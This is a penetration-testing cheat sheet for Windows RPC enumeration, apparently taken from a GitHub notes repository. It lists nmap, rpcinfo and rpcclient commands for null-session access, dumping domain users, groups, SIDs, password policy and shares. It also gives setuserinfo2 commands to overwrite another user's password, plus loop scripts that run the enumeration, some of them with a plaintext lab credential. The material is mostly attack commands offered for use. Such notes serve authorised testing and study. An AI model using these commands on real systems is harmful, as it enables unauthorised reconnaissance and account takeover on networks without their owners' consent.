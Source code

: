 # RPC Checklist

````
nmap -sV -p 111 --script=rpcinfo $ip
nmap -sV -p 111 --script=rpc* $ip
rpcdump.py $ip -p 135
rpcclient -U "" $ip // when asked enter empty password
rpcclient $ip -N -U "" \\$ip
rpcclient $>srvinfo
rpcclient $>enumdomusers
rpcclient $>querydominfo
rpcclient $>getdompwinfo   //password policy
rpcclient $>netshareenum
nmblookup -A 192.168.1.1
nbtscan IP
````
#List the ports using RPC
rpcinfo $ip 
> Output would look something like below
    100024    1    udp       0.0.0.0.150.11         status     29
    100024    1    tcp       0.0.0.0.219.244        status     29
    100024    1    udp6      ::.153.127             status     29
    100024    1    tcp6      ::.172.42              status     29

#list accessible RPC service endpoints
rpcinfo -p $ip 

Domain Enumeration with RPcclient
#Enum using Null Session
rpcclient -U "" $ip 

#Login as a user
rpcclient -U USERNAME //$ip 

#Find Users in the domain 
rpcclient -Uuser_Name%PASSWORD -c enumdomusers $ip 

#Find Domian Info
rpcclient -Uuser_Name%PASSWORD -c querydominfo  $ip 

#Find Groups and their Alias
rpcclient -Uuser_Name%PASSWORD -c "enumalsgroups builtin" $ip 

#Find more info using Alias and note SIDs
rpcclient -Uuser_Name%PASSWORD -c "queryaliasmem builtin 0x244" $ip 

#Find more info using SIDs
rpcclient $> lookupsids S-1-5-21-586154515854-343543654-8743952433-1105 

#Reset other Users Password
rpcclient -U user1 //$ip 
setuserinfo2 USER2 23 'PASSWORD'

Enum using RPCClient

rpcclient -U DOMAIN\\Username $ip    #Enter pass 

enumdomusers     #Enumerate Domain Users 

enumprivs        #Enum Privileges

enumprinters    #Enum Printers

srvinfo         #Server info

enumalsgroups domain    #List the domain groups 

enumalsgroups builtin    #list builtin groups

queryuser 500        #find Admin users

lookupnames username/groupname    #Find the SID of a user/group

Dont want to manually check all the commands ? maybe below script will help :P 

#save the below commands as a text file and run the below command
querydominfo
enumdomgroups
enumdomusers
querygroupmem 0x201
enumprivs        
enumprinters    
srvinfo
enumdomgroups
querygroup 0x200
queryuser Administrator
getdompwinfo
getusrdompwinfo 0x1f4
lsaenumsid
lookupnames Administrator
enumalsgroups domain
enumalsgroups builtin 
queryuser 500  
lsaquery
dsroledominfo
netshareenum
netshareenumall
netsharegetinfo Confidential
querydispinfo
lsalookupprivvalue SeCreateTokenPrivielge

#Run the below command
for command in $(cat rpc-enum.txt); do rpcclient -U "%" -c $command $ip; done



OVERWRITE SOMEONE'S PASSWORD!!!
```bash
rpcclient -N -U "hazel.green%haze1988" $ip
setuserinfo2 MOLLY.SMITH 23 'Password123!'
```

Automate a bit.

```bash
for command in $(cat /opt/windows/rpc-enum.txt); do rpcclient 192.168.165.40 -U "hazel.green" --password="haze1988" -c "$command"; done
for name in $(cat ../users.txt.bak); do rpcclient 192.168.165.40 -U "hazel.green" --password="haze1988" -c "queryuser $name"; done
```

```bash
for command in $(cat rpc-enum.txt); do rpcclient $ip -U "%" -c $command; done
for name in $(cat ../users.txt.bak); do rpcclient $ip -U "%" -c "queryuser $name"; done
```